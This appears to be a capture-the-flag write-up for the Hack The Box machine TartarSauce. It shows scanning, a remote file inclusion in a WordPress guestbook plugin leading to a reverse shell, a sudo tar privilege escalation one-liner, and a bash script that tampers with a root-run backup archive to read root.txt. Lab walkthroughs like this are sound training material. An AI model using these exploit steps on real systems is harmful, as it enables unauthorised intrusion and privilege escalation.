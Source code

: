 # [TartarSauce](https://app.hackthebox.com/machines/tartarsauce)

```bash
rustscan 10.10.10.88
```

We see that only port 80 is open, let's do nmap for this port.

```bash
nmap -A -sC -sV -p80 10.10.10.88 -Pn 
```

![Alt text](img/image.png)


Directory brute-forcing.

```bash
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -u http://10.10.10.88
```

![Alt text](img/image-1.png)


Robots.txt file

![Alt text](img/image-2.png)


I also do directory brute-force on /webservices endpoint and find Wordpress website.

![Alt text](img/image-3.png)


I do wpscan on this website.

```bash
wpscan --url http://10.10.10.88/webservices/wp/ -e vp,dbe
```


We find interesting and funny thing here, it is actual version of Wordpress's gwolle guestbook.

![Alt text](img/image-4.png)


It is actually 1.5.3 version, that's why, let's search exploit for this version.

![Alt text](img/image-5.png)

We find RFI (Remote File Inclusion) attack.


Due to exploit, that while make request as below, this request searchs 'wp-load.php' file on endpoint.

![Alt text](img/image-6.png)


From here, we can see and prove .

![Alt text](img/image-7.png)


Now, it's time for reverse shell, let's upload reverse shell to this endpoint on our machine and change name with 'wp-load.php'.

![Alt text](img/image-8.png)

Again, we send request to our endpoint and we get reverse shell.

![Alt text](img/image-9.png)

As you see, it returns 200 status code means OK,

![Alt text](img/image-10.png)


Hola , we get reverse shell from our listenere.

![Alt text](img/image-11.png)


We make interactive shell with python.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
```

![Alt text](img/image-12.png)

Then time to put modifications on interactive shell.

```bash
export TERM=xterm
export SHELL=bash
```


Let's check privileges via `sudo -l` command.

![Alt text](img/image-13.png)


We search on GTFOBins for `tar` command and find the way for privesc to 'onuma' user.
![Alt text](img/image-14.png)


```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![Alt text](img/image-15.png)


user.txt

![Alt text](img/image-16.png)


Here's backeruperer service running on background. (identified by using pspy64 tool)

Let's write script to read root.txt file

```bash
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```

After uploading this script, we wait for a while and get root.txt file content.

root.txt
![Alt text](img/image-17.png)